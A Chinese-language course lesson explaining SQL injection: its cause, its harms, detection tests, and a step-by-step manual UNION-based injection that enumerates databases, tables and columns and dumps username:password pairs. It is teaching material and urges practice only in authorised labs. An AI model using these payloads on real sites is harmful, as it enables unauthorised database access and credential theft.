# 课程 P11：第9天 - SQL注入漏洞简介与原理 🔍




在本节课中，我们将要学习网络安全中一个非常经典且危险的漏洞：SQL注入。我们将从基础概念入手，逐步理解其产生原理、危害以及一个完整的手工注入流程。通过本课的学习，你将能够理解SQL注入的核心思想，并掌握初步的检测方法。

## 什么是SQL注入？💡

SQL注入是一种历史悠久的攻击技术，最早于1998年出现。其根本原因在于，应用程序将用户输入的参数，未经充分过滤就直接拼接到了后台的SQL查询语句中。攻击者可以精心构造输入，让这些输入被当作SQL代码的一部分执行，从而操纵数据库查询，窃取、篡改或删除数据。


它的原理与我们之前学过的XSS（跨站脚本）攻击有相似之处。XSS是将用户输入当成了HTML/JavaScript代码执行，而SQL注入则是将用户输入当成了SQL代码执行。

## SQL注入的产生过程 🔄

要理解SQL注入，我们首先需要了解一个正常的Web查询流程。


**正常的查询流程如下：**
1.  用户（客户端）向网站发起一个请求（例如，查看ID为36的文章）。
2.  网站服务器接收到请求，提取参数（如 `id=36`），并构造SQL查询语句，例如：
    ```sql
    SELECT * FROM articles WHERE id = 36
    ```
3.  服务器将这个SQL语句发送给数据库执行。
4.  数据库执行查询，找到ID为36的文章记录，并将结果返回给服务器。
5.  服务器对结果进行处理，并生成网页返回给用户。


**SQL注入是如何发生的呢？**
问题出在第2步。如果网站没有对用户输入的 `id` 参数进行过滤，那么当攻击者输入的不是一个简单的数字，而是一段SQL代码时，这段代码就会被拼接到原始查询中。


例如，原始查询语句可能是：
```php
$sql = "SELECT * FROM articles WHERE id = " . $_GET[‘id‘];
```
如果用户正常输入 `id=36`，查询正常。
但如果攻击者输入 `id=36 UNION SELECT username, password FROM users`，那么最终执行的SQL语句就变成了：
```sql
SELECT * FROM articles WHERE id = 36 UNION SELECT username, password FROM users
```
这条语句的含义就完全改变了，它除了查询文章，还会联合查询出 `users` 表中的所有用户名和密码，从而造成严重的数据泄露。


## SQL注入的危害 ⚠️


SQL注入漏洞的危害极大，主要包括：
*   **获取敏感数据**：这是最常见的利用方式，如盗取用户名、密码、个人身份信息、金融数据等。
*   **篡改数据**：攻击者可能修改数据库中的数据，例如修改商品价格、用户余额等。
*   **删除数据**：执行 `DELETE` 或 `DROP` 语句，导致数据丢失。
*   **执行系统命令**：在特定条件下（如数据库配置不当），可能通过数据库执行系统命令，从而完全控制服务器。

## 如何检测SQL注入点？🔎

检测SQL注入的核心思路是：**向应用程序提交非预期的输入，观察其响应是否暴露出数据库的“异常”**。






以下是几种简单有效的检测方法：

**1. 单引号/双引号测试**
这是最经典的检测方法。在参数值后面添加一个单引号 `‘` 或双引号 `“`。
*   **原理**：如果参数被直接拼接到SQL语句中，添加的引号会破坏SQL语句的语法结构，导致数据库报错。
*   **观察结果**：如果页面返回了数据库的错误信息（如 `You have an error in your SQL syntax...`），则极有可能存在SQL注入漏洞。




**2. 逻辑测试（AND/OR）**
通过提交逻辑判断语句，观察页面返回内容的变化。
*   **示例**：假设正常请求 `id=1` 返回文章A。
    *   提交 `id=1 AND 1=1`：这是一个永真条件，如果页面正常返回文章A，说明 `AND 1=1` 被数据库执行且未影响结果。
    *   提交 `id=1 AND 1=2`：这是一个永假条件，如果页面返回空白、错误或与 `id=1` 时不同的内容，说明 `AND 1=2` 也被执行了，并且改变了查询逻辑。
*   **结论**：前后返回结果不同，则表明用户输入被作为SQL逻辑的一部分执行，存在注入。




**3. 注释符测试**
尝试使用SQL注释符（如 `-- ` 或 `#`）来“注释掉”原始查询的后半部分。
*   **示例**：提交 `id=1‘ -- ` 或 `id=1‘ #`。
*   **原理**：如果注入点需要闭合引号，添加注释符后，即使后面还有SQL代码也会被忽略。如果页面能正常返回，则证明注入成功，且我们找到了闭合方式。



## 一个完整的手工SQL注入流程 🛠️


上一节我们介绍了如何检测注入点，本节中我们来看看，一旦发现注入点后，如何一步步获取数据库中的敏感信息。我们以一个假设的注入点 `?id=1` 为例。


**步骤1：判断注入类型并闭合**
首先，我们需要确定参数是数字型还是字符型。
*   提交 `id=1‘`，如果报错，可能是字符型，需要闭合引号。
*   提交 `id=1‘ -- `，如果页面正常，则确认是字符型注入，且单引号闭合，`-- ` 注释掉了后续语句。


**步骤2：判断查询结果的列数（ORDER BY）**
为了后续使用 `UNION` 联合查询，我们必须知道原始查询返回多少列。
*   提交 `id=1‘ ORDER BY 1 -- `，页面正常。
*   提交 `id=1‘ ORDER BY 2 -- `，页面正常。
*   提交 `id=1‘ ORDER BY 3 -- `，页面正常。
*   提交 `id=1‘ ORDER BY 4 -- `，页面报错。
*   **结论**：原始查询返回 **3** 列。


**步骤3：确定数据回显位（UNION SELECT）**
`UNION` 操作符用于合并两个查询的结果集，列数必须相同。我们需要找出在页面中显示的是哪几列。
*   提交 `id=-1‘ UNION SELECT 1,2,3 -- `
    *   将 `id` 设为不存在的值（如-1），让原始查询结果为空，这样页面就会显示我们 `UNION` 查询的结果。
    *   观察页面，看数字 `1`、`2`、`3` 中哪些位置被显示出来。假设显示的是 `2` 和 `3`，那么这两个位置就是我们可以用来回显数据的“显示位”。









**步骤4：获取数据库信息**
利用显示位，我们可以查询数据库的各类信息。
*   **查询当前数据库名**：
    ```sql
    id=-1‘ UNION SELECT 1, database(), 3 --
    ```
    页面在显示位2的地方会输出当前数据库的名称。
*   **查询所有数据库名**：
    ```sql
    id=-1‘ UNION SELECT 1, group_concat(schema_name), 3 FROM information_schema.schemata --
    ```
    `information_schema` 是MySQL的系统数据库，存储了所有数据库、表、列的信息。`group_concat()` 函数将多行结果合并成一行。







**步骤5：获取表名**
知道数据库名后，接下来查询该数据库中有哪些表，特别是寻找像 `admin`、`users` 这样的敏感表名。
*   **查询指定数据库（假设库名为 `web_test`）的所有表名**：
    ```sql
    id=-1‘ UNION SELECT 1, group_concat(table_name), 3 FROM information_schema.tables WHERE table_schema=‘web_test‘ --
    ```







**步骤6：获取列名**
确定目标表（例如 `users`）后，需要知道它有哪些列（字段），比如 `username`、`password`。
*   **查询 `users` 表的所有列名**：
    ```sql
    id=-1‘ UNION SELECT 1, group_concat(column_name), 3 FROM information_schema.columns WHERE table_schema=‘web_test‘ AND table_name=‘users‘ --
    ```




**步骤7：获取数据（最终目标）**
最后，利用已知的表名和列名，直接查询出敏感数据。
*   **查询 `users` 表中的用户名和密码**：
    ```sql
    id=-1‘ UNION SELECT 1, group_concat(username, ‘:‘, password), 3 FROM web_test.users --
    ```
    这条语句会将 `users` 表中所有用户的用户名和密码，以 `用户名:密码` 的格式拼接起来并显示在页面上。









## 总结 📝

本节课中我们一起学习了SQL注入漏洞的基础知识。我们首先了解了SQL注入的定义和历史，明白了其产生的根本原因是“用户输入被当作代码执行”。接着，我们剖析了SQL注入发生的完整流程，并认识了其可能造成的严重危害。

然后，我们重点学习了如何手工检测SQL注入点，包括使用单引号、逻辑测试和注释符等方法。最后，我们一步步演练了一个完整的手工SQL注入攻击流程：从判断注入类型、确定列数、寻找回显位，到最终获取数据库名、表名、列名和敏感数据。


核心的利用都依赖于对 `information_schema` 数据库的查询和 `UNION SELECT`、`group_concat()` 等关键SQL语句的掌握。理解了这个流程，你就掌握了SQL注入的基本原理。请务必在合法授权的靶场环境中进行练习，切勿对未授权的系统进行测试。